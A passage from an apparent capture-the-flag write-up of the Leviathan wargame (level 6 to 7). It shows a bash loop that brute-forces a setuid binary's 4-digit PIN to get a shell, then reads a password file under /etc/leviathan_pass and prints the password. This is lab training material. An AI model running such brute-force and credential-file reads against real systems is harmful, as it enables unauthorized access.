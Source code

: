 Easy enough! We got the password and we can move on to leviathan6!

### Level 6 -> 7:
As always, let's run `ls -la` and see what we have to work with.

```console
leviathan6@leviathan:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan7 leviathan6 7484 Nov 14  2014 leviathan6
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
```

Another executable, shocker... really. This one in particular, is asking us to input a 4 digit pin. Let's try and brute force it! We will start by creating a tmp directory and opening `nano` to write a shell script.

```console
leviathan6@leviathan:~$ mkdir /tmp/levi6
leviathan6@leviathan:~$ nano /tmp/levi6/brute.sh
```

Our shell script will look something like this...

```bash
#!/bin/bash

for a in {0000..9999}
do
~/leviathan6 $a
done
```

Save the script as `bash.sh` or anything you'd like for that matter, and let's use `chmod` to give it executable permissions. Once done, let's run the script.

```console
leviathan6@leviathan:/tmp/levi6$ chmod +x brute.sh
leviathan6@leviathan:/tmp/levi6$ ./brute.sh
```

Give the script ~20 seconds to run and you should see a blank command line with `$` appear... 

```console
$ whoami 
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
Done! We got the password! Technically this is the last level... but let's SSH into leviathan7 to see what's in there.
